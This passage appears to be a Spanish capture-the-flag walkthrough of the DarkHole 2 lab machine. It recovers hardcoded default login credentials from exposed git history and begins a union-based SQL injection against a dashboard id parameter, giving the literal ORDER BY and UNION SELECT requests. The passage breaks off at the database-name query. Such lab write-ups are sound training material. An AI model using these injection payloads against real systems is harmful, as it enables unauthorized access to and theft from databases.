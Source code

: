 Con el comando `git show <commit>` podemos acceder a más información del cambio realizado en .git.

```bash
┌──(root㉿kali)-[/home/kali/git-dumper/darkhole2git]
└─# git show a4d900a8d85e8938d3601f3cef113ee293028e10
commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

...
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
...
```

Encontramos que las credenciales por defecto para el login son:

- Usuario: lush@admin.com
- Contraseña: 321
- Accedemos con éxito a `http://192.168.184.131/login`

## 3. Explotación

En la URL `http://192.168.184.131/dashboard.php?id=1`, probamos cambiar el parámetro `id=1` por `id=2` y vemos que la página responde. Esto sugiere que hay un punto de inyección SQL. Usamos BurpSuite para interceptar las peticiones y realizamos un ataque de SQL Injection con `ORDER BY`.

Comenzamos con la siguiente inyección:

```bash
GET /dashboard.php?id=1'+order+by+6--+- HTTP/1.1
```
Los `+` entre medio es para realizar `urlencode`.

Al ver que la consulta no responde para order by 7, inferimos que hay 6 columnas en la consulta SQL.

### Union-Based SQL Injection

1. Obtenemos la Base de Datos Actual:

En `Union-Based SQL Injection` se debe conocer el número exacto de columnas para realizar una unión exitosa.

```bash
GET /dashboard.php?id=1' UNION SELECT NULL, NULL, NULL, database(), NULL, NULL-- -
```
